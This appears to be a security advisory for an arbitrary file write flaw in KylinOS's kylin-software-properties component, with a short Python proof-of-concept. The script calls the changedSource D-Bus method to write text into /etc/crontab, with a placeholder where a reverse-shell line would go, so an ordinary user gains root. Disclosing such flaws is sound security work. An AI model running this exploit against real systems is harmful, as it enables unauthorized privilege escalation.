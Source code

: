 # Kylin OS kylin-software-properties arbitrary file write vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
## Report
### Describe
kylin-software-properties is a component on KylinOS Desktop for setting system software properties. There is an arbitrary file writing vulnerability in the changedSource function of this component, which can lead to privilege escalation for ordinary users.
### Hazard level
High
### Affected version
kylin-software-properties < 0.0.1-130
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def change_source(old, new, target):
    bus = dbus.SystemBus()
    obj = bus.get_object("com.kylin.software.properties", "/com/kylin/software/properties")
    proxy = dbus.Interface(obj, "com.kylin.software.properties.interface")
    print(proxy.changedSource([old, new, target]))

change_source("#", "rebound shell", "/etc/crontab")
os.system("grep -rn 'rebound shell' /etc/crontab")
```
